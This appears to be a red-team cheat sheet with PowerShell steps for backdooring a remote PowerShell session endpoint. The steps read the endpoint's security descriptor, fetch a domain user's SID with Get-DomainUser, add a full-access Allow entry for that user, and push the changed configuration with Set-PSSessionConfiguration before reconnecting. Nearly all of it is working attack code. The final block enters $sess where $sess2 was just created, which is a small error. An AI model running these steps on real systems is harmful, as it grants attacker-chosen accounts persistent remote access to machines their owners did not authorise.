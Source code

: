 #### Connect and check the config
```
$sess = New-PSSession -ComputerName <FQDN> -Credential $creds -ConfigurationName <ENDPOINT>
Enter-PSSession $sess
Get-PSSessionConfiguration
```

#### Get original SDDL
```
$existingSDDL = (Get-PSSessionConfiguration -Name "<PROFILE>" -Verbose:$false).SecurityDescriptorSDDL
```

#### Get SID  for new user to add
```
$SID = (Get-DomainUser <USER>).Objectsid
```

#### Create new SDDL with a new USER SID
```
$isContainer = $false  
$isDS = $false  
$SecurityDescriptor = New-Object -TypeName Security.AccessControl.CommonSecurityDescriptor -ArgumentList $isContainer,$isDS, $existingSDDL
$accessType = "Allow"  
$accessMask = 268435456  
$inheritanceFlags = "none"  
$propagationFlags = "none"  
$SecurityDescriptor.DiscretionaryAcl.AddAccess($accessType,$SID,$accessMask,$inheritanceFlags,$propagationFlags) | Out-Null
$newSDDL = $SecurityDescriptor.GetSddlForm("All")
$newSDDL
```

#### Change the config
````
Set-PSSessionConfiguration -name "<PROFILE>" -SecurityDescriptorSddl "<SDDL>" -force -Confirm:$false
````

#### Reconnect and check the config
```
$sess = New-PSSession -ComputerName <FQDN> -Credential $creds -ConfigurationName <ENDPOINT>
Enter-PSSession $sess
Get-PSSessionConfiguration
```

#### Connect to reconfigured new endpoint
```
$sess2 = New-PSSession -ComputerName <FQDN> -Credential $creds2 -ConfigurationName <RECONFIGURED ENDPOINT>
Enter-PSSession $sess
Get-PSSessionConfiguration
```

